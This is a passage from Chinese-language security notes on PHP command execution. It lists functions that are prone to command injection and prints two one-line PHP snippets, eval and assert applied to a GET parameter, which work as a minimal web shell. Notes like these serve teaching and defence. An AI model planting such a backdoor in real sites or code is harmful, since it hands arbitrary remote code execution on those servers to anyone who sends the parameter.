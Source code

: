 ![Alt text](45.png)
![Alt text](46.png)
## 五.命令执行

[PHP代码/命令注入小结](https://mp.weixin.qq.com/s/e-qNJaXZh-t5H7AJEOBIAQ)
### 常见命令注入函数
#### eval(),，assert(), system()，preg_replace(), create_function, call_user_func, call_user_func_array，array_map()，反引号，ob_start()，exec()，shell_exec()，passthru()，escapeshellcmd()，popen()，proc_open()，pcntl_exec()
#### 1.最简单的几个函数
```php
<?php
@eval($_GET["sky"]);
?>

<?php
@assert($_GET["sky"]);
```
